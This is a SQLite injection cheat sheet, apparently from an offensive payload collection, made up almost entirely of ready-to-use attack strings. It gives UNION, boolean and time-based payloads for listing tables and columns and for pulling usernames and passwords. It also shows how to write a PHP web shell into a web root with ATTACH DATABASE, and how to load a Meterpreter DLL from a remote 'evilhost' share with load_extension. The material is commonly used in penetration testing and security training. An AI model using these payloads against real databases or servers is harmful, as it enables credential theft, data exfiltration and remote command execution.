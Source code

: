 # SQLite Injection

## Summary

- [SQLite Injection](#sqlite-injection)
  - [Summary](#summary)
  - [SQLite comments](#sqlite-comments)
  - [SQLite version](#sqlite-version)
  - [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
  - [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
  - [Boolean - Count number of tables](#boolean---count-number-of-tables)
  - [Boolean - Enumerating table name](#boolean---enumerating-table-name)
  - [Boolean - Extract info](#boolean---extract-info)
  - [Extract Password of Current User](#extract-password-of-current-user)
  - [Time based](#time-based)
  - [Remote Command Execution using SQLite command - Attach Database](#remote-command-execution-using-sqlite-command---attach-database)
  - [Remote Command Execution using SQLite command - Load_extension](#remote-command-execution-using-sqlite-command---load_extension)


## SQLite comments

```sql
--
/**/
```

## SQLite version

```sql
select sqlite_version();
```

```sql
username=")) UNION+SELECT 1,sqlite_version(),3,4--
```

## Integer/String based - Extract table name

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

```sql
username=")) UNION SELECT 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

```sql
username=")) UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='<table>'-- -
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Extract Password of Current User

```sql
username="))+union+select+username,+password,+3,+4+from+users+limit+1+--
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled
